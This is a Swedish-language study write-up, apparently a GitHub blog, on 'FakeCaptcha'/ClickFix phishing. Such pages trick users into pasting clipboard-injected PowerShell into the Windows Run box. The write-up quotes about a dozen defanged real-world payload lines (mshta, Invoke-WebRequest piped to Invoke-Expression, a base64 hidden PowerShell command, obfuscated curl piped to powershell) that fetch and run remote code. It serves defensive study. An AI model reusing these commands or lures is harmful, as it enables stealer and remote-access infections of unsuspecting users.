

## Mindmap over hemsidan

<p align="center">
  
</p>
# FakeCaptcha Phishing Analys
Denna bloggen kommer innehålla kortfattad information som jag har hittat när det gäller FakeCaptcha Phishing.

Dubbell info

# Fakecaptcha 

FakeCaptcha är en phishing metod som använder captcha på för att lura användarna att själv skriva in illvillig powershell kod i sin dator.
Hemsidan kommer visa en fake captcha och för att komma vidare till den "riktiga hemsidan" måste man bevisa att man är inte en robot genom att följa instruktionerna.

Instruktionerna
1. WIN + R            -- Öppnar Run boxen i Windows
2. CTRL + V           -- Klistrar in en illvillig powershell kod i run boxen
3. Enter              -- För att köra koden i run


Om du undrar hur koden blev kopierad i första hand är de för att användaren tryckte "Im not a robot" eller "Verify" först, innan instruktionerna dök upp.
Den Kopieras i smyg utan användarens kunskap.

Som bilden visar nedanför försöker hackarna ge användarna en falsk trygghet genom att visa bara en del av powershell koden som ser ut och vara äkta.


Nedanför finns det exempel på hur powershell koden kan se ut.


```
mshta.exe hxxps://ernier[.]shop/lyricalsync[.]mp3 # ''Ι am nοt a rοbοt: САРТСНА Verification UID: 885203

mshta.exe hxxps://zb-files[.]oss-ap-southeast-1[.]aliyuncs[.]com/DPST_doc.mp3 #  ''Ι am nοt a rοbοt: САРТСНА Verification UID: 815403

mshta.exe hxxp://ok[.]fish-cloud-jar[.]us/ # "Authentication needed: Secure Code 3V8MUR-9PW4S"

mshta.exe hxxps://yedik[.]shop/Tech_House_Future[.]mp3 #  ''Ι am nοt a rοbοt: САРТСНА Verification UID: 885203

mshta.exe hxxps://x63-hello[.]live/nF3mXcQ9FVjs1sMt[.]html #'' I'm human ID241619''

mshta.exe hxxps://welcome12-world[.]com/wpDoQRpZt2PIffud[.]html #'' I'm human ID233560''

mshta.exe hxxps://w19-seasalt[.]com/mbDjBsRmxM1LreEp[.]html #'' I'm human ID984662''

PowerShell.exe -W Hidden -command $uri = 'hxxps[://]fessoclick[.]com/clck/dub.txt'; $content = (Invoke-WebRequest -Uri $uri).Content; Invoke-Expression $content”

cmd /c "powershell -w h -e aQBlAHgAKABpAHcAcgAgAC0AVQByAGkAIAAnAGgAdAB0AHAAcwA6AC8ALwB2AGkAZQB3AGUAcgAtAHYAYwBjAHAAYQBzAHMALgBjAG8AbQAvAGkAbgAuAHAAaABwAD8AYQBjAHQAaQBvAG4APQAxACcAKQA=" && ✅ I am not a robot - reCAPTCHA ID: 7845

mshta hxxps://check[.]nejyd[.]icu/gkcxv[.]google?i=db47f2d4-a1c2-405f-ba9f-8188d2da9156 REM ✅ Human, not a robot: Verification САРTCHA ID:658630

PoWeRsHeLl -w h -c cUr"L.E"x"E" -k -L
hxxp"s://ka"j"e"c.icu"/f"04b18c2f7ff"48bdbf06"701"38"f9eb2"4f.txt | pow"e"rs"h"el"l" -

```


Ett av hackarnas mål är att försöka få användarna tro att hemsidan och att instruktionerna är äkta och det gör dom genom att ändra domän namnet till nåt som ser äkta ut oftast använder dom populära hemsidor som facebook eller microsoft. 

Så som bilden visar nedanför gör dom backgrunden till den riktiga hemsidan fast suddig.


# FakeError

Fake error är princip samma sak som FakeCaptcha en skillnaden är att den spelar på användarens rädsla att nånting har gått fel.
För att övertyga användaren mer så låser hemsidan sig själv i fullskärm.
Exempel på FakeError nedanför.


# Initial Access
En Lista för hackarnas olika sätt att sprida FakeCaptcha / FakeError hemsidorna
- Äkta sidor som ersätts av FakeCaptcha / FakeError
- Malvertising / SEO-poisoning
- Redirictions
- Fake tech support / tutorials
- E-mail


# Tricks hackarna har använt sig av
Dom använder även andra metoder för att förhindra att bli påkommna av säkerhets företagen gemom att använda Cloudflare captcha på deras egna illvilliga hemsida, för att sen förhindra web crawlers av säkerhets företagen att hitta deras skadlig kod.


# Konsekvenserna
Virusen som blir installerad är oftast Stealers eller RAT som sen leder till konto kappning, bedrägeri eller crypto mining


# Labb ide
Göra en enkel version av detta med hjälp av attack och defend vm's 
Öppna calculator på defend vm från attack vm. 


# Referenser
````
https://any.run/cybersecurity-blog/new-phishing-tactics/

https://app.any.run/tasks/22b677ed-8ee9-4c25-81c0-fd9073540009/?
utm_source=anyrunblog&utm_medium=article_bottom&utm_campaign=newphishing11102023&utm_content=task

https://intelligence.any.run/analysis/lookup#{%22query%22:%22threatName:%5C%22qrcode%5C%22%22,%22dateRange%22:180}

https://pcriot.com.au/fake-cloudflare-win-r-malware-what-it-is-how-it-works-and-how-to-clean-your-site/

https://community.spiceworks.com/t/getting-out-of-scareware-when-its-full-screen-and-doesnt-respond-to-control-al/966997 -- hackarna
använder tvingat fullscreen för sin hemsida?

https://www.malwarebytes.com/blog/news/2025/03/fake-captcha-websites-hijack-your-clipboard-to-install-information-stealers

https://thehackernews.com/2025/08/clickfix-malware-campaign-exploits.html -- bra analys

https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vecto
````

